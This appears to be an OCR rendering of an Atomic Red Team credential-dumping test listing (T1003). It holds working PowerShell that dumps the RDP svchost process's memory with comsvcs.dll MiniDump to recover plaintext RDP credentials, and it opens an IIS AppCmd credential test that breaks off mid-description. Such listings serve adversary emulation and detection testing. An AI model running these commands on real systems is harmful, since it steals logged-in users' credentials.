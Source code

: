 ```
                                                        Atomic Test Number: 3                                                                                                                                                                                                                   Atomic Test GUID: d400090a-d8ca-4be0-982e-c70598a23de9                                                                                                                                                                                  Description: The svchost.exe contains the RDP plain-text credentials. Source: https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/                                                                          Upon successful execution, you should see the following file created $env:TEMP\svchost-exe.dmp.                                                                                                                                                                                                                                                                                                                                                                                 Attack Commands:                                                                                                                                                                                                                        Executor: powershell                                                                                                                                                                                                                    ElevationRequired: True                                                                                                                                                                                                                 Command:                                                                                                                                                                                                                                $ps = (Get-NetTCPConnection -LocalPort 3389 -State Established -ErrorAction Ignore)                                                                                                                                                     if($ps){$id = $ps[0].OwningProcess} else {$id = (Get-Process svchost)[0].Id }                                                                                                                                                           C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $id $env:TEMP\svchost-exe.dmp full                                                                                                                                                                                                                                                                                                                                                                   Cleanup Commands:                                                                                                                                                                                                                       Command:                                                                                                                                                                                                                                Remove-Item $env:TEMP\svchost-exe.dmp -ErrorAction Ignore                                                                                                                                                                               [!!!!!!!!END TEST!!!!!!!]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [********BEGIN TEST*******]                                                                                                                                                                                                             Technique: OS Credential Dumping T1003                                                                                                                                                                                                  Atomic Test Name: Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using list)                                                                                                                                          Atomic Test Number: 4                                                                                                                                                                                                                   Atomic Test GUID: 6c7a4fd3-5b0b-4b30-a93e-39411b25d889                                                                                                                                                                                  Description: AppCmd.exe is a command line utility which is used for managing an IIS web server. The list command within the tool reveals the service account credentials configured for the webserver. An adversary may use these credentials for other malicious purposes. [Reference](https://twitter.com/0gtweet/stat
```